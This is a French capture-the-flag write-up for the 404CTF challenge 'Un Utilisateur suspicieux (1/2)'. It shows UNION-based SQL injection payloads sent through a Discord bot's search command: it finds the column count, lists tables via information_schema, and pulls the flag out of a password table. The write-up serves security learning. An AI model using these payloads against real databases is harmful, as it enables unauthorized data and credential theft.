 ## Un Utilisateur suspicieux (1/2)

### Description

On intéragit avec un bot discord où les commandes disponibles sont :
```
Commandes disponibles :
!chercher argument -> rechercher argument dans la base de données
!authentification motdepasse -> authentifiez vous pour accéder au mode privilégié
!drapeau -> obtenez un mystérieux drapeau
```
L'objectif est donc certainement de ``!chercher`` le bon argument.
On remarque rapidement que ``!chercher "`` ne renvoie rien et que ``!chercher -1" OR 1=1#`` renvoie un grand nombre de résultats.
On vient donc de trouver une injection SQL, à partir de là on peut dérouler le tapis !

### Exploit

#### Trouver le nombre d'arguments

```
!chercher -1" UNION SELECT NULL#
> Results:
  Result #1:
  >None
```

```
!chercher -1" UNION SELECT NULL,NULL#
> Pas de réponse
```

La requête SQL prend donc un seul argument.

#### Trouver le nom des tables de la base de données

```
!chercher -1" UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables#
> Results:
  Result #1:
  >ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENABLED_ROLES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEYWORDS,KEY_CACHES,KEY_COLUMN_USAGE,OPTIMIZER_TRACE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,SQL_FUNCTIONS,SYSTEM_VARIABLES,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,CLIENT_STATISTICS,INDEX_STATISTICS,INNODB_FT_CONFIG,GEOMETRY_COLUMNS,INNODB_SYS_TABLESTATS,SPATIAL_REF_SYS,USER_STATISTICS,INNODB_TRX,INNODB_CMP_PER_INDEX,INNODB_METRICS,INNODB_FT_DELETED,INNODB_CMP,THREAD_POOL_WAITS,INNODB_CMP_RESET,THREAD_POOL_QUEUES,TABLE_STATISTICS,INNODB_SYS_FIELDS,INNODB_BUFFER_PAGE_LRU,INNODB_LOCKS,INNODB_FT_INDEX_TABLE,INNODB_CMPMEM,THREAD_POOL_GROUPS,INNODB_CMP_PER_INDEX_RESET,INNODB_SYS_FOREIGN_COLS,INNODB_FT_INDEX_CACHE,INNODB_BUFFER_POOL_STATS,INNODB_FT_BEING_DELETED,INNODB_SYS_FOREIGN,INNODB_CMPMEM_RESET,INNODB_FT_DEFAULT_STOPWORD,INNODB_SYS_TABLES,INNODB_SYS_COLUMNS,INNODB_SYS_TABLESPACES,INNODB_SYS_INDEXES,INNODB_BUFFER_PAGE,INNODB_SYS_VIRTUAL,user_variables,INNODB_TABLESPACES_ENCRYPTION,INNODB_LOCK_WAITS,THREAD_POOL_STATS,Privileged_users,data,password
```

#### Récupérer le flag

```
!chercher -1" UNION SELECT * from password#
> Results:
  Result #1:
  >404CTF{D1sc0rd_&_injection_SQL}
```